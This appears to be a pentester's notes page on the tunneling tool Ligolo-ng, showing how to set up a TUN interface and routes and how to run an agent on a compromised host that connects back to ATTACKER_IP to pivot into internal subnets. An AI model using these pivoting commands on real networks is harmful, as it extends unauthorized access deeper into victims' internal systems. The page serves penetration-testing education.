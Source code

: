 ```yaml
---
description: >-
  An advanced, yet simple, tunneling tool that uses a TUN interface. Ligolo-ng
  is a simple, lightweight and fast tool that allows pentesters to establish
  tunnels from a reverse TCP/TLS connection using
---
```


# Ligolo-Ng

{% embed url="https://github.com/tnpitsecurity/ligolo-ng" %}

<figure><img src="../../.gitbook/assets/Untitled Diagram (4).jpg" alt=""><figcaption></figcaption></figure>

### Setting up Ligolo-ng

{% hint style="info" %}
Before running Ligolo-ng, you must create a TUN Interface on the attacker PC so that ligolo can add routes to different sub networks. The idea is that when you have a sub network such as \`192.168.0.0/24\` that is inside the tartget network, you can provide the sub network IP address (which can only be reached from an internal network) to any tool you want.
{% endhint %}

`Creating a Tun Interface`

```
# Before running ligolo-ng proxy, you must create a tuntap virtual interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

<details>

<summary>ligolo-setup-script</summary>

```
#!/bin/bash
me="$(whoami)"
echo "addling ligolo routes to user: $user"

echo "creating the ligolo tun interface"
sudo ip tuntap add user "$me" mode tun ligolo 
sudo ip link set ligolo up

echo "now adding routes $a $b"
a="172.16.0.0/24"
b="192.168.0.0/24"
c="10.10.0.0/24"
sudo ip route add "$a" dev ligolo
echo "done : $a"
sudo ip route add "$b" dev ligolo
echo "done : $b"
sudo ip route add "$c" dev ligolo
echo "done : $c"

echo "fuck off now! :)"
```

</details>

Once you have added the TUN Interface and the sub networks that you want to access from the attacker PC, you can now launch ligolo proxy on the attacker PC and the agent on an already compromised host in the internal network.&#x20;

`Connecting to a Ligolo-Agent`

```
# 1. On the attacking machine :
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. On each compromised host with the network that you want to pivot to
./agent -connect ATTACKER_IP:9901
```

### Agent Binding/Listening

`Agent Binding/listening on ligolo allows you to capture reverse shells from an internal network and forward it through the ligolo connection. You can then launch a netcat/pwncat-cs from the attacking machine seamlessly, give you the impression as if you were already in the target network.`

```
# 1. On the attacking machine :
TODO :)
```

### Use Cases&#x20;

### 1. Accessing the Target Network

Once you have gained access to the Public Facing Server that is in the Target Network, you can to access/enumerate or exploit any vulnerabilities against a different target in the same network using the very own tools from the attacking machine.

```
# 1. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 2. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 1. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 192.168.0.0/24 dev ligolo

# 2. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 3. Once selected, type : 
Start

//This will now route the sub network 192.168.0.0 via the ligolo TUN interface and through the ligolo tunnel.
```
![image](https://user-images.githubusercontent.com/90450439/221321355-726da2ad-6064-462d-aaa2-dda9265284d2.png)
